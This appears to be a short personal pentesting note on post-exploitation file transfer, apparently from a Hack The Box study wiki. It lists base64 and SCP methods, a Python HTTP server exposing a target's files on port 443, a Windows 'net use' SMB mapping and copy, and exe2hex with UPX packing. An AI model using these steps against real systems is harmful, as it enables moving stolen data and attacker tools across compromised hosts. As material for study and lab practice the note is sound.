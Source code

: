 

[Attended HTB Walkthrough](https://hackso.me/attended-htb-walkthrough/)


1. [[Base64]] to extract a file
2. [[SCP]] if [[SSH]] is available

# Linux

## Python 

```shell-session
python3 -m http.server --directory /home/user/target_files 443
```

# Windows 
## Guide 

[Transferring Files from Linux to Windows (post-exploitation) - ropnop blog](https://blog.ropnop.com/transferring-files-from-kali-to-windows/#smb)

1. [[3. Exploitation/Operating System Specific/Windows/Tooling/Impacket|Impacket]] SMB server share
2. Net Use

```
net use z: \\192.168.19.33\ROPNOP

copy z: .
```

3. [GitHub - g0tmi1k/exe2hex: Inline file transfer using in-built Windows tools (DEBUG.exe or PowerShell).](https://github.com/g0tmi1k/exe2hex)
	1. Make the executable smaller using [UPX](https://upx.github.io/)
